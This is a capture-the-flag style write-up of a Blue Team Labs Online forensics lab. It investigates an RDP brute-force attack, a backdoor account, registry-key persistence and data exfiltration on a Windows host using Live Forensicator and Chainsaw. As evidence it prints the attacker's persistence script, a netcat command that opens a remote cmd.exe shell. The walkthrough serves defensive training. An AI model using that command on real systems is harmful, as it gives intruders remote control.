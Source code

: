 # [Blue Team Labs Online - Swift](https://blueteamlabs.online/home/investigation/swift-17217744e9) 
Created: 15/05/2024 11:10
Last Updated: 02/06/2024 17:43
* * *
<div align=center>

![5644a81119da2be5a1f1858c9a438c66.png](../../../_resources/5644a81119da2be5a1f1858c9a438c66.png)
</div>

>Use Live Forensicator, a PowerShell framework, to collect key artifacts for analysis and triage after a Windows system has been compromised. Investigate the retrieved data and find clues of what happened.

>**Tags**: Live Forensicator, PowerShell, Notepad++, Chainsaw, T1110, T1136, T1086, T1547.001, T1567.002,
* * *

**Scenario**
**The login credentials are shown on the lab client.**

Use Live Forensicator, a PowerShell framework, to collect key artifacts for analysis and triage after a Windows system has been compromised. Investigate the retrieved data and find clues of what happened.

**When using Live Forensicator and Chainsaw, make sure to run them using an administrative-level command prompt or PowerShell session.**

**Reading Material:**
https://github.com/Johnng007/Live-Forensicator
https://github.com/WithSecureLabs/chainsaw
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771865(v=ws.11)
* * *
## Investigation Submission
> Run Live Forensicator using the "-EVTX EVTX" flag. Open the created output .HTML files in Chrome. According to Live Forensicator, which user accounts were locked out? (Alphabetical order)

Live Forensicator is a tool written in PowerShell to gathering artifacts of infected system and find anomaly or suspicious activity that happened on that system

![21c50034f719558af9fdf8dc6819e291.png](../../../_resources/21c50034f719558af9fdf8dc6819e291.png)
We can start by using `.\Forensicator.ps1 -EVTX EVTX` to collect event log 
![f79f8b6fa9917dfb8bbc9d1dc025718e.png](../../../_resources/f79f8b6fa9917dfb8bbc9d1dc025718e.png)
Then Go to Live Forensicator folder and you will find a folder named after hostname of this system, Go to that folder and Open `index.html` 
![6526d73003ca5985e614f09fa87e7691.png](../../../_resources/6526d73003ca5985e614f09fa87e7691.png)
Web browser should be opened now and next we will click "Event Log Analysis" and show "User LockOut Activities"

As you can see, there are 4 users
```
Administrator, Brittany.Song, John.Raymond, ServiceAccount
```

>Review the Lockout Policy on the machine. What is the number of failed logons before an account is locked, and what is the lockout duration?

You can learn more about Account Lockout Policy from Microsoft Learn [here](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/account-lockout-policy)
![1f047a3f29bfee2d367330f9599049b2.png](../../../_resources/1f047a3f29bfee2d367330f9599049b2.png)
We will need to open Group Policy Editor then go to this specific path
![59c26198afb06789ed78d214b8ed8158.png](../../../_resources/59c26198afb06789ed78d214b8ed8158.png)
Search for Group Policy then open it
![206b987b01e60ade6efe7b80f7043c19.png](../../../_resources/206b987b01e60ade6efe7b80f7043c19.png)
You can see that Account lockout threshold is set to 10 invalid logon attempts and It will be unlocked after 10 minutes
```
10, 10
```

>Which accounts were successfully accessed during the bruteforce attack?

![ee8a1a5441e52f32128634c9725c4499.png](../../../_resources/ee8a1a5441e52f32128634c9725c4499.png)
Go back to our Web Browser (Still on Event Log Analysis) then show "RDP Login Activities" to review which account was successfully logged on from remote user. then you will see 3 accounts that was logged on from the same IP address but the answer are Claire and ServiceAccount
```
Claire.Daniels, ServiceAccount
```

>What is the IP address that conducted the bruteforce attack and accessed these accounts, and what country is it associated with?

![19d26567d12fa9de0dfaa0f61330de56.png](../../../_resources/19d26567d12fa9de0dfaa0f61330de56.png)
Grab this IP and go to Ip-location.com
![b61b13aab4ab797dab79ab5537d37064.png](../../../_resources/b61b13aab4ab797dab79ab5537d37064.png)
It associates with UK
```
82.2.66.222, United Kingdom
```

>What account is created by the attacker, what is the Time associated with this activity according to Live Forensicator?

![a23e16d630211f0410c6095014e71f89.png](../../../_resources/a23e16d630211f0410c6095014e71f89.png)
Still on "Event Log Analysis", this time click to show "User Creation Activity"

Now we can figure it out why only 2 users were successfully bruteforced since this account was created later
```
ServiceAccountBackup, 8/26/2022 3:13:02 PM
```

>Use Chainsaw with the -r flag and point the tool at the Live Forensics EVT output folder to further investigate the RDP bruteforce activity. How many failed logins are detected across all affected accounts? 

Chainsaw is a powerful tool when it comes to analyze event log so lets use `.\chainsaw.exe hunt -r .\rules\ C:\Users\BTLOTest\Desktop\Live-Forensicator-main\EC2AMAZ-UUEMPAU\EVT` to let it process (I used `.\rules` because I didn't one to roll just 1 specific rule)
![19f9451f0e7f15b8d2c8a7d4af849011.png](../../../_resources/19f9451f0e7f15b8d2c8a7d4af849011.png)
After its done processing, scroll down to "Login Attacks".
Now we will sum all of these failed login attempts for an answer (13+44+10+10=77)
```
77
```

>What local accounts were NOT targeted in this attack, according to Chainsaw's output for Login Attacks? (Only include accounts that are likely used by humans! and no, don't include BTLO!)

![7819d1afeeabb4ad4135942c2f664a14.png](../../../_resources/7819d1afeeabb4ad4135942c2f664a14.png)
Back to Web Browser, we will go to "Users & Accounts" to compared both result and you can see that only 2 users are not listed on "Login Attacks" result
```
Claire Daniels, George Darville
```

>Using Live Forensicator, identify the script that the attacker attempted to use for persistence. Submit the filepath and filename (Hint: Think about the account that is actively being used by the attacker to identify the right file!)

![687ec00caf45078ad3542ec3eac7d33b.png](../../../_resources/687ec00caf45078ad3542ec3eac7d33b.png)
Go to "System Processes", there are sevaral persistence techniques here but I clicked to show "Startup Programs" first then found this suspicious script file that added by compromised account
```
C:\Windows\Temp\script.ps1
```

>What are the contents of the script file?

![8ea31a328ec9353fe65be1de1e758d68.png](../../../_resources/8ea31a328ec9353fe65be1de1e758d68.png)
Go to Temp folder to read the content of this file (or you can just get content from PowerShell directly)
![7523b14a9e54d85a06e62676f3abdb9f.png](../../../_resources/7523b14a9e54d85a06e62676f3abdb9f.png)
```
cmd.exe -c nc64.exe -lvp 4456 -e c:\Windows\System32\cmd.exe
```

>We can't always trust the output from our tools. Manually investigate the machine's Run, RunOnce, RunServiceOnce registry keys. List the keynames where the persistence script is being executed 

![f4c884df32935d4f441fc6d09cc74c4d.png](../../../_resources/f4c884df32935d4f441fc6d09cc74c4d.png)
For reference, we will check these 3 keys
Using 
```
Get-Item HKLM:\Software\Microsoft\Windows\CurrentVersion\Run
Get-Item HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce
Get-Item HKLM:\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
```
![7816c62dbe754756889b8509a346c1c9.png](../../../_resources/7816c62dbe754756889b8509a346c1c9.png)
There are 2 keys that store this malicious script which is different from Live Forensicator result
```
Run, RunserviceOnce
```

>Run Live Forensicator again using the flag to get browser history. Look at the BROWSING_HISTORY directory first, focusing on history from the compromised account used by the attacker. Three websites are a concern for data exfiltration, what are the URLs? (Alphabetical order based on subdomain or domain)

![63958a260b5f0d27f39681c9b1c566fd.png](../../../_resources/63958a260b5f0d27f39681c9b1c566fd.png)
Lets use `.\Forensicator.ps1 -BROWSER BROWSER` to gather browser artifacts and process them
![599c6b3fff223272228486dbf34b2989.png](../../../_resources/599c6b3fff223272228486dbf34b2989.png)
Inside hostname folder under Live Forensicator folder, there is a new folder named "BROWSING_HISTORY" which will have log files of all user's browser history

Open history file from ServiceAccount since we know this is a compromised account
```
https://gds.google.com, https://pastebin.com, https://wetransfer.com
```

>Look at Live Forensicator's BrowserHistory.html output and search through the results for Pastebin. What is the URL that contains exfiltrated company data? 

![e87b8b0917d6b1708f3a772452328418.png](../../../_resources/e87b8b0917d6b1708f3a772452328418.png)
Back from BROWSING_HISTORY, go up then open "BrowserHistory.html"
![20c348b663aa6cf620cc2ecf8ba4c87b.png](../../../_resources/20c348b663aa6cf620cc2ecf8ba4c87b.png)
Search for pastebin and you can see that we didn't need to go to that url ourselves (for now), Title has enough info for us
![a9dc5ed052d2506e69ed9b5f15db9d5d.png](../../../_resources/a9dc5ed052d2506e69ed9b5f15db9d5d.png)
There it is
```
https://pastebin.com/MbnNWkMT
```

>Visit this page directly (or if it is removed, use web.archive.org). How many rows of data have been exfiltrated by the attacker?

![0ee494b9c6f94eb91b145ce08ecdf1a4.png](../../../_resources/0ee494b9c6f94eb91b145ce08ecdf1a4.png)
```
50
```

>Revisiting the malicious script created by the attacker, according to Live Forensicator, what is the creation date for the .ps1 file? 

![05db9b44424f21e228acc62dc3ffeee6.png](../../../_resources/05db9b44424f21e228acc62dc3ffeee6.png)
After searching for "script.ps1", we got 4 records of it and the oldest one is this record which is the correct answer of this question
```
8/26/2022 15:34:27 PM
```

>What is the Last logon value for the attacker manually accessing the compromised account? (Remember, certain persistence mechanisms might log in as the user, so think about the timestamp that makes sense within the timeline)

![7149cab0c623efc5362214ced1a961b7.png](../../../_resources/7149cab0c623efc5362214ced1a961b7.png)
Go to Security Event log, filter for EventID 4624 (Successfully Logon) and narrow down to date and time that close to previous question which is this one
```
8/26/2022 15:40:22 PM
```

>Based on the information in the data dump, investigate the files of each user on the system to locate the document. What is the filename, and which account was it stored on?

![b204b110af8825cff9d4c13268bcfb4c.png](../../../_resources/b204b110af8825cff9d4c13268bcfb4c.png)
After searching through every user's Desktop/Download/Document folder I finally found it in `C:\Users\George.Darvill\Desktop\HR Documents\Employee Details - CONFIDENTIAL`
```
Employee Master List.xlsx, George.Darvill
```

![608b53ff9b60aaab52b2e6ff367dc683.png](../../../_resources/608b53ff9b60aaab52b2e6ff367dc683.png)
* * *